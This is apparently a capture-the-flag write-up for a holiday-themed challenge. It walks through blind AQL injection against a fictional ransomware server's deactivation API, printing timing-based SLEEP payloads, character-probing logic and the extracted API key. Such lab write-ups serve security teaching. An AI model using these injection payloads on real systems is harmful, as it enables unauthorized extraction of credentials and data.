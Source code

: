# OBJECTIVE 16 - Deativate Frostbit Naughty-Nice List Publication#
Difficulty: ❄️❄️❄️❄️❄️

## OBJECTIVE : ##
>Wombley's ransomware server is threatening to publish the Naughty-Nice list. Find a way to deactivate the publication of the Naughty-Nice list by the ransomware server.

#

## HINTS: ##
<details>
  <summary>Hints provided for Objective 16</summary>
  
>-  There must be a way to deactivate the ransomware server's data publication. Perhaps one of the other North Pole assets revealed something that could help us find the deactivation path. If so, we might be able to trick the Frostbit infrastructure into revealing more details.
>-	The Frostbit author may have mitigated the use of certain characters, verbs, and simple authentication bypasses, leaving us blind in this case. Therefore, we might need to trick the application into responding differently based on our input and measure its response. If we know the underlying technology used for data storage, we can replicate it locally using Docker containers, allowing us to develop and test techniques and payloads with greater insight into how the application functions.


</details>

#  

## PROCEDURE : ##

The starting point for this objective is not explicitly provided, but it’s quite clearly [the API call we spotted in Santa Vision](OBJECTIVE%2013%20-%20Santa%20Vision.md#santa-vision-c); `api/v1/frostbitadmin/bot/<botuuid>/deactivate, authHeader: X-API-Key`

To call this API we can use `curl` with the following command:
```bash
curl -X GET "https://api.frostbit.app/api/v1/frostbitadmin/bot/a0870d85-09c6-440a-b878-f7cc8253bf24/deactivate " -H "X-API-Key:test_value
```
Alternatively you can use GUI applications such as [BURP suite](https://portswigger.net/burp) or [Postman](https://www.postman.com/) which was my preferred choice as I found it made it a lot quicker and easier to try multiple payloads and keep track of the results.

To start off with let’s try sending a test request with a `X-API-Key`  header value set to `test`  and we find that this returns an error: `{"error": "Invalid Request"}`, which isn’t very useful.  However, from the [previous objective](OBJECTIVE%2015%20-%20Decrypt%20the%20Naughty-Nice%20List.md) we learnt of a server-side parameter which can be enabled to provide us with more detailed error information, so let’s try tacking on `?debug=true`  to the API call.  This time the error we get is slightly different: `{"error":"Invalid Key"}`  - so at least now we know that the we are constructing our API call correctly, it’s just that the API Key that we are providing that is incorrect (of course).

Let’s try tinkering with this API call and see what happens… If we try to pass some special characters such as `;` `*` `/` `\` or `` ` `` we get a different error saying `{"error":"Request Blocked"}`  which tells us that these specific characters are being blocked by the application.  However, if we try passing a `'` character in our `X-API-Key`  header, we get a far more interesting response from the server:
```json
{

"debug": true,

"error": "Timeout or error in query:\nFOR doc IN config\n FILTER doc.<key_name_omitted> == '{user_supplied_x_api_key}'\n <other_query_lines_omitted>\n RETURN doc"

}
```
Now this is extremely interesting – first of all the server throwing this kind of error to an input of a `'` character immediately indicates that is likely vulnerable to some kind of injection.  Secondly, the error helpfully outputs part of the query that it is using to try and match our API Key input.

From the query we can tell that this is not written in SQL and that is most likely written in **AQL** – [ArangoDB Query Language](https://docs.arangodb.com/3.10/aql/), we can also see that there is a table called `config`  and that the application is trying to match our input with the contents of a particular key in that table.  By providing a `'` as our input, the query on the server is evaluated as:

```sql
FOR doc IN config FILTER doc.<key_name_omitted> == ‘’’
```

And this causes a timeout error because it is FALSE.  So, what can we add to our input to make it always return TRUE?  Of course, it’s the classic SQLI test string of ``‘OR 1==1``.  That’s all well and good, however it doesn’t really tell us anything more about the database or its contents.

At this stage I decided to try and figure out what verbs are being blocked by the application and which aren’t – so I gathered as many command verbs as I could find from the [AQL documentation](https://docs.arangodb.com/3.12/aql/) and put them in a script that tries to submit each one as the header value and records the server’s response. I also tried a bunch of special characters and recorded the response.  In the end I came up with the following (non-exhaustive) list:


| **Allowed Commands** |**Blocked Commands**  |
|:--:|:--:|
|`SEARCH`  `SORT`  `SLEEP`  `LIMIT`  `COLLECT`  `WINDOW`  `REPLACE`  `REMOVE`  `UPSERT`  `NOOPT`  `FAIL`  `CONCAT`  `LEFT`  `RIGHT`  `SUBSTRING`  `LENGTH` | `FOR`  `RETURN`  `FILTER`  `LET`  `INSERT`  `UPDATE`  `WITH`  `VALUES`   
|**Allowed Special Characters**| **Blocked Special Characters**
|`!` `"` `#` `$` `%` `&` `'` `(` `)` `+` `,` `-` `.` `:` `<` `=` `>` `?` `@`  `[` `]` `^` `_` `{`  `|`  `}` `~` `¬` `¦` | `;` `*` `/` `\` `` ` ``

This table helped me plan my strategy from here.  I knew right away it would be useless to try to get the application to execute another `FOR IN` search or to RETURN  some other value, furthermore, no matter what payloads I tried I always got the same AQL error or “invalid key” – so this was going to have to be a blind injection.

Blind injection techniques usually attempt to determine the effectiveness of a payload by measuring the difference in response time from the server.  A longer response time typically indicates that the payload is causing the server to do some processing and thus probably executing the commands we passed.  Luckily for us, we can see that AQL’s `SLEEP()`  function is not being blocked and we can use this to our advantage by passing a payload such as the following in our header:
```sql
' OR 1==1 ? SLEEP(2) :'
```
This payload makes use of the ternary operator (`?`) which essentially is equivalent to “_IF TRUE THEN_”, so with the above payload. The query will always evaluate to TRUE thanks to the `OR 1==1`  operation and when that evaluates to true it instructs the server to pause for two seconds before sending a response.  Sure enough, although we receive the same old error with this payload, we can observe a noticeable delay before we receive the response.  This means that the server is evaluating the query before the `?`  and executing the commands that come after it.

Things start to get very interesting from this point on.  We can use this vulnerability in the application to enumerate the `config`  table of the database.  We can use a payload such as `' OR LENGTH(doc)>1 ? SLEEP(2) : '`  to determine whether the table has more than one field in it.  If we observe a delay, it means that there _is_ more than one field.  We can play around with this until we arrive at `' OR LENGTH(doc)==4 ? SLEEP(2) : '` which tells us that the `config`  table has exactly four fields.

These field names are considered as _ATTRIBUTES_ of the `config` table in AQL and we can use a payload such as the following to test for the presence of system attributes in the `config` table:
```sql
' OR "_key" IN ATTRIBUTES(doc) ? SLEEP(2) : '
```
We can also use the following payload to determine how many non-system attributes are in `config`: 
```sql
' OR LENGTH(ATTRIBUTES(doc,true))==1 ? SLEEP(2) : '
```
Note that by adding `,true` to the `ATTRIBUTES` function we instruct AQL to only return **non-system** attributes.

Finally, by playing around with these payloads we can determine that the `config` table is composed of three system attributes and one user-defined attribute and these are stored in this order:
```json
config: {<undisclosed_name>, _rev, _key, _id}
```
These attributes can be addressed as you would normally address a matrix. So, for example, ``ATTRIBUTES(doc)[1]`` = ``_rev``.

At this point it would be really great if we could possibly find the name of the user-defined attribute as this is probably where the API key is being stored.  We can start by determining the number of characters in the name by playing a quick game of Hi/Lo with payloads such as this one:
```sql
' OR LENGTH(ATTRIBUTES(doc,true)[0]) >10 ? SLEEP(2) : '
```

With this method we can eventually determine that the user-defined attribute has a name that is 18 characters long.  Armed with this information we can use the `LEFT()` command to return the first leftmost x number of letters in the name and then use the `LIKE` command with wildcards to match that value against test characters until we find one that invokes a delay in the server.  For example,  ```' OR LEFT((ATTRIBUTES(doc)[1]),4) LIKE "%v" ? SLEEP(2) : '``` will cause a delay since the first four characters of ``ATRRIBUTES(doc)[1]`` are ``_rev`` and therefore match with `%v` (where `%` is considered by AQL as a wildcard that can match any string).  At this point I drafted [a python script](Code/blind_AQLI_Attribute_Name.py) with help from [ChatGPT](https://chatgpt.com/) that is composed of two nested loops, which submit a payload for each allowed character until it causes a server delay, then adds that character to the final value and moves to the next one.  This gave me the name of the user-defined attribute as **deactivate_api_key**.

![image](https://github.com/user-attachments/assets/c72b32f3-67bd-4879-960d-9216ce86db88)


Now we can use the same technique to determine the length of the string inside the field `deactivate_api_key` by using the `CHAR_LENGTH()` function:

```sql
' OR CHAR_LENGTH(doc.deactivate_api_key) ==36 ? SLEEP(2) : '
```

From this payload we learn that the API key we are trying to retrieve has 36 characters, so we can modify the outer loop of [the same python script we used earlier](Code/blind_AQLI_Attribute_Name.py) to loop 36 times and we change the payload to the following:

```python
payload  =  f"' OR LEFT(doc.deactivate_api_key,36) LIKE '{known_part  +  char}%' ? SLEEP(2) : '"
```
You can find the revised script [here](Code/blind_AQLI_Key_Value.py).

We can now simply run the script and wait for it to run through all the 36 characters and give us our API KEY: **abe7a6ad-715e-4e6a-901b-c9279a964f91**

Finally, we can submit our last API call with the retrieved API key in the header and we receive the following message confirmation:
```json
{

"message": "Response status code: 200, Response body: {\"result\":\"success\",\"rid\":\"a0870d85-09c6-440a-b878-f7cc8253bf24\",\"hash\":\"02af9465e7eae22fb250dea497ea045952c1f7e8be0f7ea86fdf7c7df2020eb4\",\"uid\":\"28388\"}\nPOSTED WIN RESULTS FOR RID a0870d85-09c6-440a-b878-f7cc8253bf24",

"status": "Deactivated"

}
```
We can also confirm that the ransomware has been deactivated by revisiting the ransom note page:

![image](https://github.com/user-attachments/assets/1d0f658e-d18a-413c-910a-e3ad499b7fa1)
